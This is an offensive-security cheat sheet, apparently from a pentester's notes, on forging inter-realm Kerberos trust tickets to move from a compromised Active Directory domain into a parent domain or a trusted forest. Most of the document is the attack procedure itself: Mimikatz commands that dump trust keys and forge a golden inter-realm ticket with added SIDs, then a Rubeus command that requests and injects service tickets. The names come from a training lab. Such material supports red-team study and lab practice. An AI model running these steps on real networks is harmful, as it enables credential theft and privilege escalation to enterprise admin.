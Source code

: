# Domain Trusts - Forging Trust Tickets

🔎 View in Notion [Link](https://r3dbuck3t.notion.site/Domain-Trusts-Forging-Trust-Tickets-cad847c5afb8447cac284ae5c97ed38e)

📖 Related Article on R3d-Bucket: [Breaking Domain Trusts with Forged Trust Tickets]()

# Escalation Requirement 🚩

- Domain Admin privileges on the compromised domain machine.
- Domain Controller **Trust Key** to forge the **Inter-realm TGT tickets.**

# Escalation Vectors 🎯

- **Across Domains:** an attacker with DA privileges can hop to another domains within the forest.
- **Across Forests:** accessing another forests that have transitive 2 way trust relationship with the compromised forest.

# Tools

- **Invoke-Mimikatz**
- **Rubeus**

# Escalation Steps

1. **Dump trust keys  with Mimikatz [DA privs are required]**
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName DC-Name**
    > 
    
    > **Invoke-Mimikatz -Command ‘“lsadump::trust /patch”’-ComputerName dcorp-dc**
    > 

1. **Create Inter-realm Ticket with Mimikatz**
    
    > **Invoke-Mimikatz -Command '"Kerberos::golden /user: Administrator  /domain: dollarcorp.moneycorp.local [child_domain]
    /sid: DomainAdmin_SID   /sids: Enterprise_Admin_SID   /rc4: Ticket HASH  /service:krbtgt   /target:moneycorp.local [root domain]
    /ticket: location to save the ticket"'**
    > 

1. **Request service tickets with Rubeus** 
    
    > **Rubeus.exe asktgs   /ticket: ticket Location  /service: service type [cifs/mcorpdc.moneycorp.local]  /dc: domain controller [mcorp-dc.moneycorp.local]  /ptt**
    
   
    
    # References
    
    [Enumerating Domain Trusts in Active Directory](https://medium.com/r3d-buck3t/enumerating-domain-trusts-in-active-directory-series-c85205fc862f)
    
    [](https://www.pentesteracademy.com/activedirectorylab)
    
    [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
    
    [Specifying Security and Administrative Boundaries](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755979(v=ws.10)?redirectedfrom=MSDN)
